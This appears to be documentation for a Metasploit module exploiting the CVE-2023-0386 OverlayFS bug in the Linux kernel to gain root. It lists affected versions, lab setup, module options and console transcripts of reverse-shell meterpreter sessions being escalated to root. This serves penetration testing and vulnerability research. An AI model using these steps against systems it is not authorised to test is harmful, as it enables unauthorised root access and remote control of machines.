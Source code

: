 ## Vulnerable Application

This exploit targets the Linux kernel bug in OverlayFS.

A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities
was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount.
This uid mapping bug allows a local user to escalate their privileges on the system.

The vulnerability affects:

    * Linux kernel from (including) 5.11 up to (excluding) 5.15.91 and from (including) 5.16 Up to (excluding) 6.1.9

This module was successfully tested on:

    * Ubuntu kernel version 5.13.0-1021-oem on x64/amd64
    * Ubuntu kernel version 6.0.0-060000-generic on x64/amd64
    * Ubuntu kernel version 6.0.19-060019-generic on x64/amd64
    * Ubuntu kernel version 6.1.0-060100-generic on x64/amd64

### Install

1. Install Ubuntu version 22.04 LTS
2. (Optional) Change kernel version
```
sudo apt update
sudo apt install -y linux-image-5.13.0-1021-oem linux-headers-5.13.0-1021-oem
reboot
```
3. Install the required libraries
```
sudo apt update
sudo apt install -y gcc cmake fuse libfuse-dev libcap-dev
```

## Verification Steps

1. Make an Ubuntu
2. Create a meterpreter or shell payload and upload it to the Ubuntu target
3. Set up a handler for the payload
4. Launch the payload as a regular user on the Ubuntu target and connect the handler
5. Do: `use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc`
6. Do: `run session=<session> lhost=<lhost>`
7. You should get a root

## Options

### COMPILE (required)

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.
The default value is `Auto`

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 60 seconds.

### WritableDir (required)
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios
### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=Auto
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.10
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.10:59844) at 2024-09-09 08:22:36 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=Auto

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.AHeqRyKHX/.2zkk6' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.AHeqRyKHX
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.10:54770) at 2024-09-09 08:23:02 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=True
```
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=True

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.cvnVjW/.j3OSujf' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.cvnVjW
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.10:51750) at 2024-09-09 08:23:28 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ubuntu 6.0.19-060019-generic x64/amd64 COMPILE=False
```
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=False

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 6.0.19
[*] Writing '/tmp/.wWno7SA/.Bv3HUIrHyr' (18712 bytes) ...
[*] Writing '/tmp/.wWno7SA/.r1nzG9LZ' (16824 bytes) ...
[*] Writing '/tmp/.wWno7SA/.g0QNeF' (1068952 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.wWno7SA
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.10:33860) at 2024-09-09 08:23:50 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.56.10
OS           : Ubuntu 22.04 (Linux 6.0.19-060019-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
